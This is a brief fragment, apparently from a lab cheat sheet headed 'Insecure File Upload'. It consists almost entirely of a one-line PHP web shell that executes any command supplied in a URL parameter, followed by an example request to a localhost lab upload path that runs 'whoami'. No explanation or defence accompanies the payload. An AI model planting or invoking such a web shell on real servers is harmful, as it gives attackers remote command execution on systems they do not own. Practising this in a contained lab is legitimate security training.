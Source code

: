 # Insecure File Upload

```php
<?php system($_GET['cmd']); ?>
http://localhost/labs/uploads/cmd.php?cmd=whoami
```
